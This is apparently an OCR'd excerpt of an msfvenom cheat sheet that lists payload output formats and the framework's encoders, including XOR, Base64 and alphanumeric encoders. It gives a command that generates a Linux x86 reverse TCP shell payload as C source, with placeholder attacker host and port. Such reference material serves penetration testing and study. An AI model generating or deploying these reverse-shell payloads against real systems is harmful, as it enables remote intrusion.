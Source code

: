 ```
    go
    golang
    hex
    java
    js_be
    js_le
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
```

`$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<IP> lport=<PORT> -f c -o sc-x86.c`

### 1.4 - Encoders

- List of encoders

```
$ msfvenom -l encoders

Framework Encoders [--encoder <value>]
======================================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Bourne ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    ruby/base64                   great      Ruby Base64 Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x64/xor_context               normal     Hostname-based Context Keyed Payload Encoder
    x64/xor_dynamic               normal     Dynamic key XOR Encoder
    x64/zutto_dekiru              manual     Zutto Dekiru
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
```